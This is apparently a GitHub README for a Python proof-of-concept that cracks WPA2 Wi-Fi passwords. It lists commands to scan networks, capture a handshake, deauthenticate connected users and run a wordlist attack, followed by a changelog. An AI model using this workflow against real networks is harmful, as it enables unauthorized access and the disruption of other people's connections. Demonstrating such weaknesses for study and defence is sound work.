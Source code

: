 # WPA2-Crack
This a POC to show how a WPA-2 network can be cracked by computing the message integrity check in python.

## Requirements
* Python >= 3.6
* pbkdf2 == 1.3
* scapy >= 2.4.3

## Installation
  ```bash
  git clone https://github.com/nicolas031/WPA2-Crack.git
  cd WPA2-Crack
  pip3 install -r requirements.txt
  ```
  
## Usage
  The interface needs to be in monitor mode. (No check is done yet, it is just not going to work)
  The first step is to discover wifi network around us, for this we can use the `scan_wifi.py` script:
  ```sh
  sudo python3 scan_wifi.py -i wlan0mon
  ```

  For every wifi networks around you, you will be able to see the channel, BSSID and SSID
  We are now ready to capture the 4-way handshake for a choosen network + a beacon frame from this network.
  ```sh
  python3 capture_handshake.py -i wlan0mon -b xx:xx:xx:xx:xx:xx -c 1 -o handshake.pcap
  ```
  This script is now waiting for a device to connect to the network in order to capture the 4-Way handhsake, we can use the deauth.py script to disconnect user from the network:

  ```sh
  python3 deauth.py -i wlan0mon -b xx:xx:xx:xx:xx:xx
  ```
  
  Once we captured the handshake we are ready to start cracking the password
  ```sh
  python3 crack_password -w wordlist -p handshake.pcap
  ```
  If the password is in the wordlist, it will be found and displayed to the screen.
  
  ### Changelogs
  ```
  v2.0.0
  ------
  * Added a beacon frame in the capture, to avoid error when user had to enter the SSID in crack_password.py script
  * Code refactoring, espacially tab changed into spaces !
  * Renamed files name
  * Added option to enter output filename in capture_handshake.py script
  * Deleted SSID option in crack_password.py script
  ```

